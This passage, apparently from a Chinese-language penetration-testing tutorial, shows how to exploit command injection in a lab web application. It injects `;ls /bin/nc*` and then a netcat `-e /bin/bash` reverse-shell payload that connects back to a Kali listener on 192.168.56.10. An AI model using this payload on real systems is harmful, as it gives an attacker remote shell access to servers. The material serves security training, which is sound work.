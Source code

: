 1.  现在，我们将获得服务器上的反向 Shell。首先，我们必须确保服务器上有我们需要的所有工具。提交`;ls /bin/nc*`。它应该返回一个带有完整路径的文件列表：

![](img/3f7e3524-5ef0-4164-a304-b7c640a480b7.png)

所以，我们有多个版本的 NetCat，这是我们将用来生成连接的工具。OpenBSD 版本的 NetCat 不支持在连接时执行命令，因此我们将使用传统版本。

1.  下一步是在我们的 Kali 机器上监听一个连接；打开一个终端并运行以下命令：

```
nc -lp 1691 -v
```

1.  然后，在浏览器中提交以下内容：`;nc.traditional -e /bin/bash 192.168.56.10 1691 &`。

1.  我们将看到在监听的 Kali 终端中如何接收连接。在那里，我们可以像以下示例一样在服务器上执行命令：

![](img/1f02672a-70ee-46c3-a990-1db4e14bd906.png)

我们的终端会对连接做出响应。现在，我们可以发出非交互式命令并检查其输出。

# 它是如何工作的...
